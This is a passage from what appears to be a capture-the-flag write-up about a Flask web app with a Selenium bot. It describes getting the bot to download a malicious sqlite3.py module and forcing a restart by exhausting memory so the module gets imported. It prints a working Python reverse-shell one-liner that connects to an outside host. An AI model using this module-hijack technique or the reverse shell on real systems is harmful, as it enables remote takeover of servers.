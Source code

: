 ```python
```
{: .nolineno }
{: file="src/bot.py" }
Enabling experimental features gives us the ability to download files into the current working directory. We can potentially use this to serve our own malicious file for download, and have the bot place it in the working directory on the server.
This could be used to perform a LFI attack (Local file inclusion). The `app.py` script imports a bunch of libraries, such as flask, sqlite3, etc. If we can make the bot download a malicious file called `sqlite3.py` it would in theory be imported instead of the real `sqlite3` library, which would give us code execution.

## 💾 The memory limit

The entire website is run in a docker container, using the `supervisord` service. Looking at the `supervisord.conf` file, we can see that a memory limit is set for the container:
```conf
[eventlistener:memmon]
command=memmon -c -a 250MB
events=TICK_60
```
{: .nolineno }
{: file="supervisord.conf" }
This means that the container will be killed and restarted if it exceeds 250MB of memory usage. The server checks this memory limit every 60 seconds. 
So combining these two attacks we could potentially have Flask load a malicious module after restarting it with a memory overload.
But how do we overload the memory?
If we again look at the `bot.py` script, we can see that the experimental features also unlock something else:

```python
if experimental:
    p_element = driver.find_elements(By.TAG_NAME, 'p')
    text = ''
    for element in p_element:
        text += element.text
        reported_reviews.append(element.text)
```
{: .nolineno }
{: file="src/bot.py" }

We can make the bot append data in memory. Knowing this, we can make the bot visit and save a bunch of data in memory, eventually hitting the limit and restarting the server.

## 👾 Malicious downloads

But first we need to make it download our malicious python module. I create a quick Python reverse shell from [revshells.com](https://www.revshells.com/) and name it `sqlite3.py`. 

```python
import os,pty,socket;s=socket.socket();s.connect(("10.0.240.251",4242));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
{: .nolineno }
{: file="sqlite3.py" }
